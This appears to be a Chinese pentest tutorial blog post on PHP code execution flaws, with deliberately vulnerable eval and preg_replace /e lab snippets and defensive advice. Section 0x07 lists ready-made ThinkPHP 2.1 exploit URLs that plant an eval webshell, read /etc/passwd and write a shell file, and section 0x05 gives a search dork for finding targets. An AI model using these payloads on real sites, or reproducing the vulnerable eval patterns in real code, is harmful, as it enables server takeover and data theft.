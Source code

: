 +++
date = "2016-07-25T22:32:51+08:00"
description = ""
draft = false
tags = ["代码执行"]
title = "代码执行漏洞"
topics = ["Pentest"]

+++

### 0x00 代码执行
> ```
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，
没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。
```

### 0x01 相关函数
> ```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
> 这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
> ```
执行代码
让网站写shell
甚至控制服务器
```

### 0x04 漏洞分类(也是利用点)
> ```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
> ```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval1.png" alt="代码执行漏洞使用eval函数1.png" %}}

* 示例二

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval2.png" alt="代码执行漏洞使用eval函数2.png" %}}

* 示例三

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval3.png" alt="代码执行漏洞使用eval函数3.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval4.png" alt="代码执行漏洞使用eval函数4.png" %}}

* 示例四

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval5.png" alt="代码执行漏洞使用eval函数5.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval6.png" alt="代码执行漏洞使用eval函数6.png" %}}

* 示例五

> mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)

> ```php
<?php
    $data = $_GET['data'];
    $ret = preg_replace('/<data>(.*?)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_preg_replace.png" alt="代码执行漏洞使用preg_replace函数.png" %}}

### 0x07 具体操作
> ```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

<br />
下一篇：http://wyb0.com/posts/code-execution-vulnerabilities-2/